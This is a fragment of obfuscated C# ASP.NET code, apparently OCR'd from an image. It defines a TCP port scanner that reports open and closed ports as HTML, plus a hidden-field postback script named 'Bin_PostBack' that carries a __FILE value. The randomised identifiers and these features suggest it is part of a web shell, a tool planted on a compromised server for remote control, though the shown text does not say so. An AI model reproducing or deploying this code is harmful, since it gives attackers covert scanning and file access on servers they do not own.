 kbXY[sdO].Join();
}
catch
{
}
}
public class ScanPort
{
private string _ip="";
private int jTdO=0;
private TimeSpan _timeSpent;
private string QGcH="Not scanned";
public string ip
{
get { return _ip;}
}
public int port
{
get { return jTdO;}
}
public string status
{
get { return QGcH;}
}
public TimeSpan timeSpent
{
get { return _timeSpent;}
}
public ScanPort(string ip,int port)
{
_ip=ip;
jTdO=port;
}
public void Scan()
{
TcpClient iYap=new TcpClient();
DateTime qYZT=DateTime.Now;
try
{
iYap.Connect(_ip,jTdO);
iYap.Close();
QGcH="<font color=green><b>Open</b></font>";
}
catch
{
QGcH="<font color=red><b>Close</b></font>";
}
_timeSpent=DateTime.Now.Subtract(qYZT);
}
}
public static void YFcNP(System.Web.UI.Page page)
{
page.RegisterHiddenField("__EVENTTARGET","");
page.RegisterHiddenField("__FILE","");
string s=@"<script language=Javascript>";
s+=@"function Bin_PostBack(eventTarget,eventArgument)";
s+=@"{";
s+=@"var theform=document.forms[0];";
s+=@"theform.__EVENTTARGET.value=eventTarget;";
s+=@"theform.__FILE.value=eventArgument;";
s+=@"theform.submit();";
s+=@"} ";
s+=@"</scr"+"ipt>";
page.RegisterStartupScript("",s);